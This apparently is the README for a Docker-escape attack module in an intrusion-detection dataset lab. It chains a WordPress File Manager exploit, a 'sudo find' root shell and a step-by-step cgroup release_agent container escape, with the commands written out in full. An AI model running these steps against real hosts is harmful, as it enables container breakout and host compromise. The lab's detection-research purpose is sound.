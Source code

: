 # **Docker Escape**

## **Table of Contents**
* **[Explaining the attack](#explaining-the-attack)**
* **[How to Use](#how-to-use)**
  * **[Configurations](#configurations)**
  * **[Repeat mode](#for-repeat-mode)**
* **[Troubleshooting](#troubleshooting)**
  * **[Docker Escape attack fails on the reverse shell phase](#docker-escape-attack-fails-on-the-reverse-shell-phase)**

## **Explaining the attack**
---

<br/>

Docker containers are well known, documented and simple to get started with, however we need to keep in mind the way they are used and especially the permissions these containers have.

This attack simulates the situation where a web server is running inside a Docker container, used for purposes of isolation, where the developer gave the container the ability to use the mount command.

This can be achieved by adding a capability to the container which has the mount command and disabling the apparmor, since it contains a black list for capabilities. This situation can also be achieved by executing the container with the [--privileged](https://docs.docker.com/engine/reference/run/#runtime-privilege-and-linux-capabilities) flag.

In our case we went with:

```
cap_add:
    - SYS_ADMIN
security_opt:
    - apparmor:unconfined
```

`cap_add` will add the SYS_ADMIN capability which will give the container the ability to execute mount.

`security_opt:` will disable the default docker apparmor profile allowing us to use the mount command.

<br/>

After getting access to the system with the Wp File Manager vulnerability ([CVE-2020-25213](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-25213)) we need to get root permissions within the container in order to break the isolation, for that we simulated a misconfiguration where the www-data user is able to use only one command with sudo which is `sudo find`.

The attack is as follows:

* Gain initial access through the Wp File Manager vulnerability.
* Execute `sudo find . -exec /bin/sh \; -quit ` which will spawn a root shell
* Exploit Linux Kernel's cgroup_release_agent vulnerability ([CVE-2022-0492](https://nvd.nist.gov/vuln/detail/cve-2022-0492)) by executing the following commands:
  * `mkdir /tmp/cgroup_mount`
  * `mount -t cgroup -o rdma cgroup /tmp/cgroup_mount/`
  * `mkdir /tmp/cgroup_mount/test`
  * `echo 1 > /tmp/cgroup_mount/test/notify_on_release`
  * `dir=$(sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab)`
  * `echo $dir"/escapingDocker" >  /tmp/cgroup_mount/release_agent`
  * `echo '#!/bin/sh' > /escapingDocker`
  * `echo 'ps aux >> '$dir'/output' >> /escapingDocker`
  * `echo 'echo "PoC, injected through the container" > /File_on_Host' >> /escapingDocker`
  * `chmod a+x /escapingDocker`
  * `sh -c "echo \$$ > /tmp/cgroup_mount/test/cgroup.procs`

<br/>

This script will execute `ps aux` on the host and write the output in a file inside docker `/output` to show that we can execute code in the host and be able to read the result.
After that, it will create a file `/File_on_Host` with the content `PoC, injected through the container` so that the user can swiftly check by himself that the attack was successful.

<br/>

## **How to use**
---
<br/>

This exploit can be ran in **repeat** mode.

From the **/path/to/project/IDS-Dataset/Attacks/WP** folder,

<br/>

### **Configurations:**

If you built the victim machine from scratch using our script you can use the following settings for the Docker escape attack:

``` Shell
sudo python3 main.py -c # To start the configuration process

Attacker ip: # Check the ip address with ' ifconfig '
Victim ip: # Check the ip address with ' ifconfig '
Exploit: 3
HTTPS: n
Victim Port: 8080
Activate auditing: y # Make sure the server is on, check Aux README for information
```

<br/>


### **For Repeat mode:**
``` Shell
sudo python3 main.py -r {number_times} # Don't forget to configure the config.ini on the 1st attack
```

OR

``` Shell
sudo python3 main.py # Don't forget to configure the config.ini on the 1st attack
```

This will execute the commands mentioned [above](#explaining-the-attack).

<br/>

## **Troubleshooting**
---

### **_Docker Escape attack fails on the reverse shell phase_:**
At the end of the setup process of the victim machine you will be instructed to execute some steps in order finish setting up what wasn't possible through the script. In you modified the Docker machine, or had to re-build it you might want to re-run through this steps:

* Access http://localhost:8080 and follow the installation steps
* Access the Plugins tab and Activate the Wp File Manager plugin
* Execute in the terminal -> ```shell docker exec $(docker ps | grep docker_wordpress | awk '{ print $1 }') bash -c "chown -R www-data:www-data /var/www/html/wp-content/"```


This will setup the Docker machine to be in the exact same state it was during development.
